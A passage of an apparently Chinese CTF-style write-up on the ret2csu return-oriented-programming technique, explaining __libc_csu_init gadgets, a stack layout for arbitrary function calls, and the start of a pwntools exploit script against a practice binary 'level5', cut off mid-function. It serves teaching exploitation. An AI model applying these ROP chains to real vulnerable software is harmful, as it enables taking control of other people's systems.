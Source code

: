 可以有以下点可以利用：

- `0x40072a` - `0x400732`

此处可以对`rbx`、`rbp`、`r12`、`r13`、`r14`、`r15`进行赋值并`ret`。为方便下面描述，这里称为过程1。

- `0x400710` - `0x400719`

此处有两个操作

一是使用`r13->rdx`，`r14->rsi`，`r15d->rdi`。 （给`edi`赋值时，`rdi`高位自动置零）

二是通过`r12 + rbx*8`实现任意函数调用。

这里称为过程2。

- `0x40071d` - `0x400724`

首先这里是过程2的后面。当`rbp = rbx + 1`时，函数继续执行到过程1。这里称为过程3。



从上面看出，我们可以通过以下流程来进行：

我们通过溢出到过程1，对寄存器进行赋值。由于最后有`ret`，继续执行栈上的内容。

栈上构造过程2。相当于过程1中，按照顺序是给寄存器`rbx`、`rbp`、`r12`、`rdx`、`rsi`、`edi`赋值。

那么设置`rbp = 1`，`rbx = 0`，满足过程3的条件，因此过程2执行完成后，会再次执行过程1（再次执行过程1只是为了接下来的`ret`，所以中间的部分直接填充了）。

过程2中执行任意函数地址为`r12`。这个函数的参数同样是最开始过程1中所控制的。



因此，我们可以设置如下栈：

high address     |  函数第一个参数 |  （只有低三十二位）

​                            |  函数第二个参数 |

​                            |  函数第三个参数 |

​                            |  要执行的函数的地址  |

​                            |  1  |

low address       |  0  |



在找到栈溢出点时，先溢出到过程1，过程1的栈如上所示，再溢出到过程2，即可通过上述栈完成任意函数执行。



来个`wiki`的`exp`：

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
```